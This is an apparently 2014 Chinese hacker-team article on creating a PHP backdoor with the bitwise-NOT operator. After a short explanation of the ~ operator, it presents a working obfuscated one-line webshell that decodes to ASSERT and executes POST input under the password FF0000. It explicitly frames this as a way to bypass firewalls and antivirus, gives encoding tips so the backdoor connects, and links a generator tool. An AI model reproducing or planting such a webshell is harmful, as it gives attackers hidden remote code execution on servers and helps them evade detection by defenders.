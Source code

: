  

    .::PHP中使用按位取反(~)函数创建后门::.

    We enjoy hacking of life in day and night.

    _______________________________________________
				
    [+] Author: Evi1m0 <evi1m0.bat#gmail.com>
    [+] Team: FF0000 TEAM <http://www.ff0000.cc>
    [+] From: HackerSoul <http://www.hackersoul.com>
    [+] Create: 2014-02-04
    _______________________________________________


    -= Main =-

1）PHP ~位运算符
前一段时间老外在twitter上爆出个有趣的东西，一串疑似乱码的字符串访问后却能正常输出1337。

PHP: 位运算符

    http://www.php.net/manual/zh/language.operators.bitwise.php
    ~ $a        Not（按位取反）        将 $a 中为 0 的位设为 1，反之亦然

PHP 的 ini 设定 `error_reporting `使用了按位的值，提供了关闭某个位的真实例子。要显示除了提示级别之外的所有错误。
php.ini 中是这样用的： `E_ALL & ~E_NOTICE `
具体运作方式是先取得 E_ALL 的值：` 00000000000000000111011111111111 `
再取得 E_NOTICE 的值： `00000000000000000000000000001000 `
然后通过 ~ 将其取反：` 11111111111111111111111111110111 `
最后再用按位与 AND（&）得到两个值中都设定了（为 1）的位： `00000000000000000111011111110111`

2）分析并重现
这个就是当时最原始的代码实现效果：

![Alt text](img/20140901-03.jpg)

当看到这个效果的时候最先想到的就是绕过防火墙等后门的实现，之后开始考虑这是哪种编码方式？
后来同李普君测试中发现直接使用echo ~'1';等则会直接输出以上的'乱码'。

![Alt text](img/20140901-04.jpg)

    <?php
    $x=~Ÿ¬¬º­«;
    $x($_POST[~¹¹ÏÏÏÏ]);
    ?>

那么我们便可以开始写一句话试试效果了：

![Alt text](img/20140901-05.jpg)

这里定义$x变量为ASSERT，然后密码为FF0000直接链接后门便可，因为当位取反出来'乱码'后我们再取一次反即可返回正常值。

3）关于编码与免杀
当重现这个后门的时候我发现，直接Copy过来的直接HTTP状态500，源头是编码问题，上面这种'乱码'其实为西欧（ISO-8859-15）。
实际过程中我们遇到了多次后门无法链接出现500的错误均势因为编码问题，如果默认编码无法识别将编码方式保存为这种即可（GBK\UTF8\...均不能成功使用）

![Alt text](img/20140901-06.png)

4）留在最后
我们写了一个小脚本为了方便生成：http://www.hackersoul.com/tools/Createbackdoor-1.php
使用方法：`Createbackdoor-1.php?pwd=password`

url:http://hackersoul.com/post/PHP%E4%B8%AD%E4%BD%BF%E7%94%A8%E6%8C%89%E4%BD%8D%E5%8F%96%E5%8F%8D%E5%87%BD%E6%95%B0%E5%88%9B%E5%BB%BA%E5%90%8E%E9%97%A8.html

    -= END =- 